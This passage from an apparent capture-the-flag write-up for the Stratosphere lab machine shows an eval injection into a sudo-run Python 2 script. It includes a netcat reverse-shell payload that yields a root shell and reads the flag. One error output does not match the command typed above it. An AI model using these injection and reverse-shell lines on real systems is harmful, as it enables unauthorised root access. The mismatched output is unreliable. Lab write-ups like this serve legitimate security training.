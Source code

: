 [This
article](https://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python.md)
on eval exploitation shows how an attacker can import modules and call
them inside eval. To test it on stratosphere:



    richard@stratosphere:~$ ls /dev/shm
    output.17370

    richard@stratosphere:~$ sudo python2 ~/test.py
    Solve: 5af003e100c80923ec04d65933d382cb
    __import__("os").system("touch /dev/shm/0xdf")
    Traceback (most recent call last):
      File "/home/richard/test.py", line 38, in <module>
        question()
      File "/home/richard/test.py", line 8, in question
        md5.update(q1.encode())
    AttributeError: 'int' object has no attribute 'encode'

    richard@stratosphere:~$ ls /dev/shm
    0xdf  output.17370



Now get a shell:



    richard@stratosphere:~$ sudo python2 ~/test.py
    Solve: 5af003e100c80923ec04d65933d382cb
    __import__("os").system("nc -e /bin/bash 127.0.0.1 12311")
      File "<string>", line 1
        import pty.pty.spawn("bash")
                            ^
    SyntaxError: invalid syntax





    richard@stratosphere:~$ nc -lnvp  12311
    listening on [any] 12311 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42910
    id
    uid=0(root) gid=0(root) groups=0(root)
    python -c 'import pty;pty.spawn("bash")'
    root@stratosphere:/home/richard#



### root.txt

With a root shell, grabbing the flag is easy:



    root@stratosphere:~# pwd
    /root

    root@stratosphere:~# wc -c root.txt
    33 root.txt

    root@stratosphere:~# cat root.txt
    d41d8cd9...







